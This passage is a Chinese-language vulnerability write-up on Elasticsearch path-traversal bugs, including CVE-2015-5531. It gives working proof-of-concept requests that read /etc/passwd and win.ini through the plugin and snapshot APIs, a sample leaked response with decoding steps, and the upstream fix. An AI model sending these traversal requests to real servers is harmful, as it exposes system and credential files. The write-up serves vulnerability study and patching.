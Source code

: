 POC（不能在浏览器访问）
```
http://localhost:9200/_plugin/head/../../../../../../../../../etc/passwd
http://localhost:9200/_plugin/head/../../../../../../../../Windows/win.ini/
```
修复： https://github.com/elastic/elasticsearch/pull/10815/files
漏洞修复时在`HttpServer.handlePluginSite()`中增加了一条判断`!file.toAbsolutePath().normalize().startsWith(siteFile.toAbsolutePath())`，过滤目录穿越

## CVE-2015-5531
官方描述此漏洞是`read arbitrary files via unspecified vectors related to snapshot API calls`，查看snapshot的官方文档，所谓快照是一种备份的功能，想要制作快照需要先注册存储库（每个存储库都是独立的，数据不共享），然后在存储库中创建快照。官方给出的这两步的API使用demo如下
```
PUT /_snapshot/my_repository
{
  "type": "fs",
  "settings": {
    "location": "my_backup_location"
  }
}

PUT /_snapshot/my_repository/my_snapshot 
```
只需要将location后面随意写个存储位置，然后访问如下网址
```
GET /_snapshot/my_repository/my_snapshot%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fWindows%2fwin.ini/
```
得到如下响应内容
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=UTF-8
Content-Length: 524

{"error":"ElasticsearchParseException[Failed to derive xcontent from (offset=0, length=92): [59, 32, 102, 111, 114, 32, 49, 54, 45, 98, 105, 116, 32, 97, 112, 112, 32, 115, 117, 112, 112, 111, 114, 116, 13, 10, 91, 102, 111, 110, 116, 115, 93, 13, 10, 91, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 109, 99, 105, 32, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 102, 105, 108, 101, 115, 93, 13, 10, 91, 77, 97, 105, 108, 93, 13, 10, 77, 65, 80, 73, 61, 49, 13, 10]]","status":400}
```
将error中的ascii码进行解码，例如可以在chrome的console中利用`String.fromCharCode(ascii)`来解码，得到真实内容

## WooYun-2015-110216
Ref： http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0110216
